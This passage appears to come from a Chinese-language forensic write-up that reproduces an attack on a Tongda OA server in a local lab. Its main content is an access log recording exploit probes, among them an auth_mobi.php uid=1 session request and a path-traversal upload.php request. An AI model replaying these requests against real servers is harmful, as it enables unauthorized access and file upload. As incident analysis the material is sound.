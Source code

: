 [![](assets/1706145664-589a95609f585216c9bb8e19271ee8fc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240123213102-a73aae4a-b9f3-1.png)  
简易记录裁取如下 (由于这里我们再现环境时使用的是本地构建的环境，所以攻击 IP 地址源自我们本地的局域网地址，但是整个流程与云上搭建一样，这里只不过就是少了一个域名注册的点，而这也是一个坑点)：

```bash
192.168.17.1 - - [15/Nov/2022:10:27:09 -0500] "GET / HTTP/1.1"200 4140 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36" "-" "-"
192.168.17.1 - - [15/Nov/2022:10:27:09 -0500] "GET /static/images/tongda.ico HTTP/1.1"200 894 "http://oa.aaa.com/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36" "-" "-"
192.168.17.1 - - [15/Nov/2022:10:27:31 -0500] "GET //inc/expired.php HTTP/1.1"200 2840 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "-"
192.168.17.1 - - [15/Nov/2022:10:27:31 -0500] "GET //ispirit/login_code.php HTTP/1.1"200 251 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "-"
192.168.17.1 - - [15/Nov/2022:10:27:32 -0500] "GET //general/ HTTP/1.1"200 2493 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "-"
192.168.17.1 - - [15/Nov/2022:10:27:32 -0500] "GET //mobile/auth_mobi.php?isAvatar=1&uid=1&P_VER=0 HTTP/1.1"200 17 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "-"
192.168.17.1 - - [15/Nov/2022:10:27:33 -0500] "GET //general/data_center/utils/upload.php?action=upload&filetype=nmsl&repkid=/.%3C%3E./.%3C%3E./.%3C%3E./ HTTP/1.1"200 2493 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "-"
192.168.17.1 - - [15/Nov/2022:10:27:33 -0500] "GET //ispirit/login_code.php HTTP/1.1"200 251 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "-"
192.168.17.1 - - [15/Nov/2022:10:27:34 -0500] "GET //general/ HTTP/1.1"200 2493 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "-"
192.168.17.1 - - [15/Nov/2022:10:27:34 -0500] "GET //mobile/auth_mobi.php?isAvatar=1&uid=1&P_VER=0 HTTP/1.1"200 17 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "-"
192.168.17.1 - - [15/Nov/2022:10:27:34 -0500] "GET //inc/expired.php HTTP/1.1"200 2840 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "-"
192.168.17.1 - - [15/Nov/2022:10:27:34 -0500] "GET //module/appbuilder/assets/print.php HTTP/1.1"404 36 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "-"
```